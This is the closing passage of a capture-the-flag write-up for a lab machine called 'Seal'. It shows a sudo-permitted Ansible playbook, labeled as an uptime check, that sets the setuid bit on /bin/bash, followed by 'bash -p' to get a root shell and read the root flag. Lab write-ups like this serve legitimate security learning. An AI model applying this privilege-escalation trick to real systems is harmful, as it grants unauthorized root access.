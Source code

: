 I searched and found [this](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html) which shows you how to do command execution, so I created my own yml file:

```text
luis@seal:/dev/shm$ cat pencer.yml 
  - name: Check the remote host uptime
    hosts: localhost
    tasks:
      - name: Execute the Uptime command over Command module
        command: "chmod +s /bin/bash" 
```

Here we just add the sticky bit to bash so we can execute as root. Now run the playbook:

```text
luis@seal:/dev/shm$ sudo ansible-playbook pencer.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [Check the remote host uptime] *****************************************************************************************

ASK [Gathering Facts] *******************************************************************************************************
ok: [localhost]

TASK [Execute the Uptime command over Command module] ***********************************************************************
changed: [localhost]

PLAY RECAP ************************************************************************************************
localhost     : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   
```

## Root Flag

Now we can escalate to root and grab the flag:

```text
luis@seal:/dev/shm$ /bin/bash -p

bash-5.0# cat /root/root.txt
<HIDDEN>
```

That's another box done. See you next time.

